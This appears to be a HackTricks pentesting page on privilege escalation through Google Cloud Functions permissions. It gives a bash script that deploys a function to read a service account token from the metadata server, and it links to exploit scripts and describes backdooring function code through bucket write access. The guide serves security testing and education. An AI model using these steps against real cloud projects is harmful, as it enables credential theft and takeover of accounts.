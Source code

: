 # GCP - Cloudfunctions Privesc

{{#include ../../../banners/hacktricks-training.md}}

## cloudfunctions

More information about Cloud Functions:

{{#ref}}
../gcp-services/gcp-cloud-functions-enum.md
{{#endref}}

### `cloudfunctions.functions.create` , `cloudfunctions.functions.sourceCodeSet`_,_ `iam.serviceAccounts.actAs`

An attacker with these privileges can **create a new Cloud Function with arbitrary (malicious) code and assign it a Service Account**. Then, leak the Service Account token from the metadata to escalate privileges to it.\
Some privileges to trigger the function might be required.

Exploit scripts for this method can be found [here](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.create-call.py) and [here](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.create-setIamPolicy.py) and the prebuilt .zip file can be found [here](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/tree/master/ExploitScripts/CloudFunctions).

### `cloudfunctions.functions.update` , `cloudfunctions.functions.sourceCodeSet`_,_ `iam.serviceAccounts.actAs`

An attacker with these privileges can **modify the code of a Function and even modify the service account attached** with the goal of exfiltrating the token.

> [!CAUTION]
> In order to deploy cloud functions you will also need actAs permissions over the default compute service account or over the service account that is used to build the image.

Some extra privileges like `.call` permission for version 1 cloudfunctions or the role `role/run.invoker` to trigger the function might be required.

```bash
# Create new code
temp_dir=$(mktemp -d)

cat > $temp_dir/main.py <<EOF
import subprocess

def main(request):
    cmd = "curl -s -f -H 'Metadata-Flavor: Google' 'http://metadata/computeMetadata/v1/instance/service-accounts/default/token'"
    result = subprocess.check_output(cmd, shell=True, text=True)
    return result
EOF

echo "" > $temp_dir/requirements.txt

zip -r $temp_dir/function.zip $temp_dir/main.py $temp_dir/requirements.txt

# Update code
gcloud functions deploy <cloudfunction-name> \
  --runtime python312 \
  --source $temp_dir \
  --entry-point main \
  --service-account <sa>@$PROJECT_ID.iam.gserviceaccount.com \
  --trigger-http \
  --allow-unauthenticated

# Get SA token calling the new function code
gcloud functions call <cloudfunction-name>
```

> [!CAUTION]
> If you get the error `Permission 'run.services.setIamPolicy' denied on resource...` is because you are using the `--allow-unauthenticated` param and you don't have enough permissions for it.

The exploit script for this method can be found [here](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.update.py).

### `cloudfunctions.functions.sourceCodeSet`

With this permission you can get a **signed URL to be able to upload a file to a function bucket (but the code of the function won't be changed, you still need to update it)**

```bash
# Generate the URL
curl -X POST https://cloudfunctions.googleapis.com/v2/projects/{project-id}/locations/{location}/functions:generateUploadUrl \
-H "Authorization: Bearer $(gcloud auth application-default print-access-token)" \
-H "Content-Type: application/json" \
-d '{}'
```

Not really sure how useful only this permission is from an attackers perspective, but good to know.

### `cloudfunctions.functions.setIamPolicy` , `iam.serviceAccounts.actAs`

Give yourself any of the previous **`.update`** or **`.create`** privileges to escalate.

### `cloudfunctions.functions.update`

Only having **`cloudfunctions`** permissions, without **`iam.serviceAccounts.actAs`** you **won't be able to update the function SO THIS IS NOT A VALID PRIVESC.**

### Read & Write Access over the bucket

If you have read and write access over the bucket you can monitor changes in the code and whenever an **update in the bucket happens you can update the new code with your own code** that the new version of the Cloud Function will be run with the submitted backdoored code.

You can check more about the attack in:

{{#ref}}
gcp-storage-privesc.md
{{#endref}}

However, you cannot use this to pre-compromise third party Cloud Functions because if you create the bucket in your account and give it public permissions so the external project can write over it, you get the following error:

<figure><img src="../../../images/image (1) (1) (1).png" alt="" width="304"><figcaption></figcaption></figure>

> [!CAUTION]
> However, this could be used for DoS attacks.

### Read & Write Access over Artifact Registry

When a Cloud Function is created a new docker image is pushed to the Artifact Registry of the project. I tried to modify the image with a new one, and even delete the current image (and the `cache` image) and nothing changed, the cloud function continue working. Therefore, maybe it **might be possible to abuse a Race Condition attack** like with the bucket to change the docker container that will be run but **just modifying the stored image isn't possible to compromise the Cloud Function**.

## References

- [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

{{#include ../../../banners/hacktricks-training.md}}




